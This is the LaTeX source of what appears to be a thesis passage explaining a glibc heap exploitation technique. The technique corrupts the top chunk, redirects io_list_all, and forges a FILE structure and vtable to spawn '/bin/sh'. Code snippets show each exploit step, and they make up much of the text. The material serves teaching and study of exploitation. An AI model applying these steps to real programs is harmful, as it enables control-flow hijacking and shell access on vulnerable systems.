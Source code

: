 \documentclass{masterthesis}
\newcommand*\ub{unsorted bins}
\newcommand*\sbs{small bins}
\begin{document}
\begin{lstlisting}[language=c,frame=tlrb]
top[3] = io_list_all - 0x10;
\end{lstlisting}

At least we need to call system function inorder to run the shell:

\begin{lstlisting}[language=c,frame=tlrb]
memcpy( ( char *) top, "/bin/sh\x00", 8);
\end{lstlisting}


As we mentioned, the libc flushes all file pointers inside the \lstinline{io_list_all} link list, which currently overwrites with the address of the \ub{}.
The goal is to gain control of execution with the help of \lstinline{fd} pointers. In the real list, the next file pointer is located at \lstinline{base_address}+0x68, if we consider bins, the mentioned address is a \sbs{}[4] which keeps a chunk between 90 to 98. We can conclude, if we manipulate the top chunk size again and set the size of 97, on the next allocation with a smaller size, the heap manager checks chunks in the \ub{} and puts it into corresponding bins which are smallbin[4]. Also, if we check the source code, we can see this size check:

\begin{lstlisting}[language=c,frame=tlrb]
if (__builtin_expect (victim->size <= 2 * SIZE_SZ, 0)
  || __builtin_expect (victim->size > av->system_mem, 0))
  malloc_printerr (check_action, "malloc(): memory corruption",
    chunk2mem (victim), av);
\end{lstlisting}


During iteration over chunks inside the \ub{}, the libc checks the size of the chunk; if the size is smaller than \lstinline{MINSIZE}, then the abort procedure called, and an attack happens.

\begin{lstlisting}[language=c,frame=tlrb]
top[1] = 0x61;
\end{lstlisting}


Now the chain of events is complete, but we have to meet the condition of \lstinline{IO_LIST_ALL}

\begin{lstlisting}[language=c,frame=tlrb]
 FILE *fp = (FILE *) top;
 fp->_mode = 0; // top+0xc0
 fp->_IO_write_base = (char *) 2; // top+0x20
 fp->_IO_write_ptr = (char *) 3; // top+0x28
 size_t *jump_table = &top[12]; // controlled memory
 jump_table[3] = (size_t) &winner;
 *(size_t *) ((size_t) fp + sizeof(FILE)) = (size_t) jump_table; // top+0xd8
\end{lstlisting}
\end{document}
